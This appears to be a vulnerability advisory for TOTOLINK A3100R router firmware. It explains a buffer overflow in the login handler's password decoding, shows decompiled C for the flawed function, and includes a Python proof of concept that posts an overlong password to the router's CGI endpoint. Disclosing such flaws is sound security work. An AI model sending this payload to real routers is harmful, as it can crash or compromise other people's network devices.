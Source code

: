 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html

## Affected version

A3100R V4.1.2cu.5050_B20200504

## Vulnerability details

In the A3100R V4.1.2cu.5050_B20200504 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v10` variable receives the `password` parameter from a POST request. However, since the user can control the input of `password`, the statement `passwordTrans((int)v10, v28);` can cause a buffer overflow injection vulnerability.

![image-20240719230438781](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230438781.png)

```c
int __fastcall passwordTrans(int a1, _BYTE *a2)
{
  _BYTE *v3; // $s5
  _BYTE *v4; // $s2
  int v5; // $s1
  int v6; // $s0
  int result; // $v0

  v3 = a2;
  v4 = a2;
  v5 = 1;
  v6 = 0;
  while ( 1 )
  {
    result = *(char *)(a1 + v6);
    if ( !*(_BYTE *)(a1 + v6) )
      break;
    if ( result == 37 )
    {
      *v4 = hextochar(*(char *)(a1 + v6 + 1), *(char *)(a1 + v6 + 2));
      v6 += 3;
    }
    else
    {
      *v4 = result;
      ++v6;
    }
    ++v5;
    ++v4;
  }
  v3[v5 - 1] = 0;
  return result;
}
```

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719230419523](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230419523.png)

